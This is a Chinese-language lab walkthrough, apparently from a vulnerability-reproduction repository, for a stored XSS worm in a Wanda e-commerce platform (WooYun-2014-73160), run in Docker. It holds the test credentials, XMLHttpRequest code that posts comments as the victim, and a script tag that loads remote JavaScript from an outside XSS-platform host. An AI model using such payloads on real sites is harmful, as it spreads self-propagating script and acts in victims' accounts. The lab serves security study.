



## 漏洞出处

WooYun-2014-73160

原知道创宇同事，现安途信息CEO，Ox_jin发现的万达电商平台严重的XSS蠕虫漏洞。


## 复现漏洞

运行测试环境：

`此环境需要公网可达环境，推荐在公有云平台上运行此事例`


```bash
docker-compose up -d
```

访问`http://your-ip:8000/`，

登录页面，输入用户名密码：

本事例中有三个用户名与密码，分别如下

```
用户名：密码
user1：user1
user2：user2
user3：user3
```

首先在任意公网环境XSS平台构造一个XmlRequest的对象,以POST形式发送到评论接口页面。下列代码中需要修改url中的IP参数与senddata的值。


```javascript
var url="http://yourip:8000/commit";

var sendata = "commit=ssy是大帅哥";

if (window.XMLHttpRequest){

var xmlhttp1=new XMLHttpRequest();

}

else{

var xmlhttp1=new ActiveXObject("Microsoft.XMLHTTP");

}

xmlhttp1.open("POST",url,true);

xmlhttp1.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

xmlhttp1.send(sendata); 
```



xss平台生成远程JS文件链接地址：`<sCRiPt/SrC=//xss.fbisb.com/xxxx>`



在评论页面处插入XSS代码：
`<sCRiPt/SrC=//xss.fbisb.com/2h62></script>`

任意用户登录页面会跨域调用恶意代码，发送评论`ssy是大帅哥`



